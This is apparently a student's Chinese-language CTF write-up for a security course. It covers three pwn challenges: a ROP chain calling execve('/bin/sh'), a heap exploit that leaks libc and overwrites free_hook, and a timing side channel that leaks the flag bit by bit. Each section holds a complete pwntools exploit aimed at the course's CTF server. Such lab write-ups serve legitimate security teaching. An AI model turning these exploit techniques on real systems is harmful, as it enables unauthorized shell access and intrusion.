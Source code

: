 # Pwn writeup

Done: Yes
Due date: December 9, 2022
Subject: 計算機安全

## ROP++

這題給的空間夠大可以直接執行 ROP 指令，先算出 BOF offset 為 40 然後開始找 ROP gadgets。這邊遇到最大的問題是沒有 **”/bin/sh**” 這個 string 讓我們傳入 execv 執行。所以我們只能找個記憶體空間把它寫入。可以用 **vmmap** 找出可讀寫區域，像下面可以看到 **0x4c5000** 是可以寫入的。

```python
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /root/NTUctf/Pwn/rop++/share/chal
          0x401000           0x498000 r-xp    97000   1000 /root/NTUctf/Pwn/rop++/share/chal
          0x401000           0x4c1000 r-xp    c0000      0 <explored>
          0x498000           0x4c1000 r--p    29000  98000 /root/NTUctf/Pwn/rop++/share/chal
          0x4c1000           0x4c5000 r--p     4000  c0000 /root/NTUctf/Pwn/rop++/share/chal
          0x4c5000           0x4c8000 rw-p     3000  c4000 /root/NTUctf/Pwn/rop++/share/chal
          0x4c8000           0x4cd000 rw-p     5000      0 [anon_004c8]
         0x11f9000          0x121b000 rw-p    22000      0 [heap]
    0x7ffe223f0000     0x7ffe22411000 rw-p    21000      0 [stack]
    0x7ffe2246c000     0x7ffe22470000 r--p     4000      0 [vvar]
    0x7ffe22470000     0x7ffe22472000 r-xp     2000      0 [vdso]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
```

利用 **mov qword ptr [rax + 8], rdx ; ret** 這個 gadget 可以把我們要的 string 寫入 mem，最後用 ROP 組成 shell code 即可得到 shell 找到 flag。

### Code

```python
# ref: https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-syscall-execv
from pwn import *

ip = 'edu-ctf.zoolab.org' 
port = 10003

#s = process('./chal')
s = remote(ip,port)
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

mem_addr = 0x4c5000
write_mem = 0x449c13 # mov qword ptr [rax + 8], rdx ; ret

pop_rdi = 0x401e3f # pop rdi ; ret
pop_rsi = 0x409e6e # pop rsi ; ret
pop_rdx = 0x47ed0b # pop rdx ; pop rbx ; ret
pop_rax = 0x447b27 # pop rax ; ret
syscall = 0x414506 # syscall ; ret

ROP = flat(
    #Write '/bin/sh' into 0x4c5000 + 0x8
    pop_rdx, '/bin/sh\x00', 0,
    pop_rax, mem_addr,
    write_mem,

    #execv('bin/sh',0,0)
    pop_rax, 0x3b,
    pop_rdi, mem_addr+0x8,
    pop_rsi, 0,
    pop_rdx, 0, 0, 
    syscall,
)
#gdb.attach(s)
s.sendafter(b"> ",b'A'*40 + ROP)
s.interactive()
```

## Babyums

這題跟 babynote 相似，先把 heap 構建起來， del user 完後即可 leak **Unsorted bin fd** address，再從 gdb 找到 libc address 後相減可得 offset。最後觀察 heap 架構填入對應的 free_hook 和 overflow chunk，delete(1) 即可得到 shell

**FLAG1 在 source code 中是大寫，但實際答案是小寫**

```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']
ip = 'edu-ctf.zoolab.org'
port = 10008
local = False

def add_user(idx,name,passwd):
    s.sendlineafter(b'>','1')
    s.sendlineafter(b'>',str(idx))
    s.sendlineafter(b'>',str(name))
    s.sendlineafter(b'>',str(passwd))
    #print(s.recvuntil(b'1. ')[:-3])

def edit_data(idx,size,data):
    s.sendlineafter(b'>','2')
    s.sendlineafter(b'>',str(idx))
    s.sendlineafter(b'>',str(size))
    s.send(data)
    #print(s.recvuntil(b'1. ')[:-3])

def del_user(idx):
    s.sendlineafter(b'>','3')
    s.sendlineafter(b'>',str(idx))
def show_users():
    s.sendlineafter(b'>','4')
    return s.recvuntil(b'1. ')[:-3]

if local :
    s = process('./chal')
else:
    s = remote(ip,port)

edit_data(0,0x418,'admin')
add_user(1,'AAAAAAAA','aaaaaaaa')
edit_data(1,0x18,'AaAa')
add_user(2,'BBBBBBBB','bbbbbbbb')
del_user(0)

leak_data = show_users()
leak_addr = leak_data.split(b'\n')[1][6:12]
leak_addr = u64(leak_addr.ljust(8,b'\x00'))
print("leaked addr:",hex(leak_addr))

libc = leak_addr - 0x1ecbe0
free_hook = libc + 0x1eee48
system = libc + 0x52290

fake_chunk = flat(
    0          ,       0x31,
    b'CCCCCCCC',b'CCCCCCCC',
    b'CCCCCCCC',b'CCCCCCCC',
    free_hook,
)
data = b'/bin/sh\x00'.ljust(0x10,b'B')
edit_data(1,0x50,data+fake_chunk)
edit_data(2,0x8,p64(system))
#gdb.attach(s)
del_user(1)
s.interactive()
```

## how2know

這題很像某個 ctf 題目 **no-syscall-allowed** (連結在下方 code 中) 透過 reuturn 的時間一個 bit 一個 bit 把 flag leak 出來，觀察後得知 stack 中 rbp 跟存 main 地址的相對位置不變，為 0x18，然後 main 對全域變數 FLAG 的相對位置也是不變的(0x2db7)，所以我們先把 main 位置讀出來，再加上 0x2db7 後即可得到 FLAG 位置。最後用 no-syscall-allowed 提供的 code 把 flag leak 出來。

```python
#ref https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/UIUCTF22/no-syscalls-allowed.c
from pwn import *
ip = 'edu-ctf.zoolab.org' 
port = 10002
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def get_a_byte(reg_offset, local):
    bit_string = ''
    for i in range(8):
        bit_string = str(start_of_code_bit(reg_offset, i, local)) + bit_string
    print(bit_string)
    return int(bit_string, 2)

def start_of_code_bit(reg_offset, bit, local):
    if local == 1:
        target = process('./chal')
    else:
        target = remote(ip,port)
    payload = asm('''
    mov rbx, QWORD PTR ds:[rbp+0x18];
    add rbx, 0x2db7;
    mov al, BYTE PTR ds:[rbx+''' + str(reg_offset) + '''];
    xor r11, r11;
    shr al, ''' + str(bit) +
    ''';
    shl al, 7;
    shr al, 7;
    imul rax, 0x20000000
    loop_start:
    cmp rax, r11;
    je loop_finished;
    inc r11;
    imul ebx, 0x13;
    jmp loop_start;
    loop_finished:
    ''')
    target.sendline(payload)
    current = time.time()
    print(target.recvall())
    now = time.time()
    diff = now - current
    print(diff)
    if diff > 0.2:
        print('the bit is 1')
        return 1
    else:
        print('the bit is 0')
        return 0
    target.close()

flag = ''
for i in range(50):
    byte = (get_a_byte(i, 0))
    flag += chr(byte)
print(flag)
```
